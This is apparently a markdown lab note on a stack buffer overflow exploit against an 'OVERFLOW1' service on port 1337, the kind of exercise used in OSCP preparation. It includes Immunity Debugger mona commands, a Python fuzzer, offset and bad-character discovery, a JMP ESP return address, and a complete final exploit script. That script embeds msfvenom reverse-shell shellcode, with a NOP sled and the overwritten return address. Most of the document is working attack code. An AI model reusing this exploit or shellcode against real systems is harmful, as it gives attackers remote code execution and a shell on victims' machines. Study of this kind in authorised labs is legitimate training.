# BufferOverflow

## Immunity Debugger

set working folder

```
!mona config -set workingfolder c:\mona\%p
```

generate chars

```
!mona bytearray -b "\x00"
```

get badchars

```
!mona compare -f c:\mona\oscp\bytearray.bin -a address
```


## Fuzzing

```python
import socket, time, sys

ip = "10.10.3.229"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```


### access violation







## Find EIP

code to connect to the server and send buffer

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```


### creating pattern

we will send this pattern as buffer and note the value of EIP.




copy the value present in EIP

0X6F43396E




feed the value to pattern-offset module in metasploit



got exact match **1978**


## Overwrite EIP




we overwrote the EIP with 42424242 ("B" * 4)




## FIND badchars

```
!mona bytearray -b "\x00"
```

code to print badchars

```python3
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
```


compare for file of bytearray with memory address of ESP where we dumped the bytearray and gives badchars

```
!mona compare -f c:\mona\oscp\bytearray.bin -a address
```




1. we will find badchars by comparing it with byte array
2. each badchar need to removed badchars need to compared again because they affect other hex codes as well

```
badchars		\x00\x07\x2e\xa0
```


## Find return address

```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```



- found a series of return address
- try them from return from top to bottom

  return address		0x625011AF


## exploit

### msfvenom

We will create a msfvenom payload with simple reverse shell with return address we got

- reverse shell code




- exploit with reverse shell and return address




### shell




## final exploit

```python
#!/usr/bin/env python

import socket

ip = "10.10.3.229"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xAF\x11\x50\x62"                                   # badhchars \x00\x07\x2e\xa0
padding = "\x90" * 30
payload = ("\xdb\xd4\xb8\x3c\x8c\xb0\xc2\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
        "\x52\x31\x43\x17\x83\xc3\x04\x03\x7f\x9f\x52\x37\x83\x77\x10"
        "\xb8\x7b\x88\x75\x30\x9e\xb9\xb5\x26\xeb\xea\x05\x2c\xb9\x06"
        "\xed\x60\x29\x9c\x83\xac\x5e\x15\x29\x8b\x51\xa6\x02\xef\xf0"
        "\x24\x59\x3c\xd2\x15\x92\x31\x13\x51\xcf\xb8\x41\x0a\x9b\x6f"
        "\x75\x3f\xd1\xb3\xfe\x73\xf7\xb3\xe3\xc4\xf6\x92\xb2\x5f\xa1"
        "\x34\x35\xb3\xd9\x7c\x2d\xd0\xe4\x37\xc6\x22\x92\xc9\x0e\x7b"
        "\x5b\x65\x6f\xb3\xae\x77\xa8\x74\x51\x02\xc0\x86\xec\x15\x17"
        "\xf4\x2a\x93\x83\x5e\xb8\x03\x6f\x5e\x6d\xd5\xe4\x6c\xda\x91"
        "\xa2\x70\xdd\x76\xd9\x8d\x56\x79\x0d\x04\x2c\x5e\x89\x4c\xf6"
        "\xff\x88\x28\x59\xff\xca\x92\x06\xa5\x81\x3f\x52\xd4\xc8\x57"
        "\x97\xd5\xf2\xa7\xbf\x6e\x81\x95\x60\xc5\x0d\x96\xe9\xc3\xca"
        "\xd9\xc3\xb4\x44\x24\xec\xc4\x4d\xe3\xb8\x94\xe5\xc2\xc0\x7e"
        "\xf5\xeb\x14\xd0\xa5\x43\xc7\x91\x15\x24\xb7\x79\x7f\xab\xe8"
        "\x9a\x80\x61\x81\x31\x7b\xe2\xa4\xce\x8d\xc4\xd0\xd2\x91\x3d"
        "\x92\x5a\x77\x57\xc4\x0a\x20\xc0\x7d\x17\xba\x71\x81\x8d\xc7"
        "\xb2\x09\x22\x38\x7c\xfa\x4f\x2a\xe9\x0a\x1a\x10\xbc\x15\xb0"
        "\x3c\x22\x87\x5f\xbc\x2d\xb4\xf7\xeb\x7a\x0a\x0e\x79\x97\x35"
        "\xb8\x9f\x6a\xa3\x83\x1b\xb1\x10\x0d\xa2\x34\x2c\x29\xb4\x80"
        "\xad\x75\xe0\x5c\xf8\x23\x5e\x1b\x52\x82\x08\xf5\x09\x4c\xdc"
        "\x80\x61\x4f\x9a\x8c\xaf\x39\x42\x3c\x06\x7c\x7d\xf1\xce\x88"
        "\x06\xef\x6e\x76\xdd\xab\x9f\x3d\x7f\x9d\x37\x98\xea\x9f\x55"
        "\x1b\xc1\xdc\x63\x98\xe3\x9c\x97\x80\x86\x99\xdc\x06\x7b\xd0"
        "\x4d\xe3\x7b\x47\x6d\x26")
postfix = ""


buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

